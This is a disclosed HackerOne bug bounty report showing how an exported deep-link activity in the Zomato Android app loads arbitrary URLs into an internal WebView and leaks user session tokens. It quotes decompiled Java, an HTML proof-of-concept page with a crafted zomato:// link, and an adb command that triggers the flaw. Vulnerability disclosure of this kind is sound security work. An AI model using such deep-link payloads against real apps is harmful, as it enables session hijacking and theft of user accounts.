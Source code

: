 # [Zomato Android/iOS] Theft of user session

## Report Details
- **Report ID**: 328486
- **URL**: https://hackerone.com/reports/328486
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-03-21T22:53:57.314Z
- **Disclosed**: 2018-06-17T17:34:37.074Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Hi, I'd like to report a bug which allows to theft user data even without installing third-party apps.

Activity 
```xml
        <activity android:theme="@style/ZomatoTranslucentTheme" android:label="@string/app_name" android:name="com.application.zomato.activities.DeepLinkRouter" android:screenOrientation="portrait">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="zomato"/>
            </intent-filter>
        </activity>
```
is exported, and can be accessed by browser. When any WebView (in a client app, or a browser) meets a ``` zomato://etc ``` URL it will automatically launch Zomato app.

File ``` com/application/zomato/activities/DeepLinkRouter.java ```
```java
	        } else if (!(getIntent() == null || getIntent().getAction() == null || !"android.intent.action.VIEW".equals(getIntent().getAction()))) {
	            this.c = getIntent().getData().toString(); // getting zomato://etc URL
	        }
	        c(this.c);
```
```java
	    private void c(java.lang.String str) {
	        boolean z = false;
	        boolean z2 = true;
	        try {
	            android.net.Uri parse = android.net.Uri.parse(str);
	            if ("zomato".equals(parse.getScheme()) || "zomatodelivery".equals(parse.getScheme())) {
	                java.util.List pathSegments;
	                java.lang.String host = parse.getHost();
```
```java
	                                } else if ("treatswebview".equals(host)) {
	                                    e(parse); // url should look like zomato://treatswebview?url=
	                                }
```
```java
	    private void e(android.net.Uri uri) {
	        android.support.v4.app.TaskStackBuilder v = v();
	        java.lang.String a = com.zomato.a.b.g.a(uri.getQueryParameter("url")); // decode of the query parameter
	        java.lang.String str = "";
	        if (uri.getQueryParameter("navigation_bar_title") != null) {
	            str = com.zomato.a.b.g.a(uri.getQueryParameter("navigation_bar_title")); // page title
	        }
	        android.content.Intent intent = new android.content.Intent(this, com.library.zomato.ordering.utils.ZUtil.getClassForWebViewNavigationType(uri));
	        intent.putExtra("url", a);
	        intent.putExtra("title", str);
	        // starting TreatsWebViewActionBarActivity
```

File ``` com/library/zomato/ordering/webview/TreatsWebViewActionBarActivity.java ```
```java
	        android.os.Bundle extras = getIntent().getExtras();
	        if (extras != null) {
	            if (extras.containsKey("url")) {
	                this.mUrl = extras.getString("url"); // 
	            }
```
```java
	    public void loadWebView() {
	        if (!this.hasLoadedBefore && !com.zomato.a.b.g.a(this.mWebViewURL)) {
	            this.zomatoWebView.loadUrl(this.mWebViewURL, this.httpHeaders); // mWebViewURL == mUrl
	            this.hasLoadedBefore = true;
	        }
	    }
```

PoC video is very simple:
{F277437}

Code on local server:
```html
<!DOCTYPE html>
<html>
<head><title>Zaheck page</title></head>
<body style="text-align: center;">
	<h1><a href="zomato://treatswebview/?url=http://google.com&navigation_bar_title=wow">Begin zaheck!</a></h1>
</body>
</html>
```

All tokens were sent to Google page:
{F277440}

Third-party apps can also attack your app, PoC from ADB:
```
adb shell am start -n com.application.zomato/.activities.DeepLinkRouter -a android.intent.action.VIEW -d "zomato://treatswebview/?url=http://google.com&navigation_bar_title=wow"
```

Hopefully in this case the latest app, but not 2 year old build :)

## Impact

1) Leakage of user tokens to arbitrary sites
2) XSS/Ability of open arbitrary sites in your internal WebView

## Attachments
No attachments
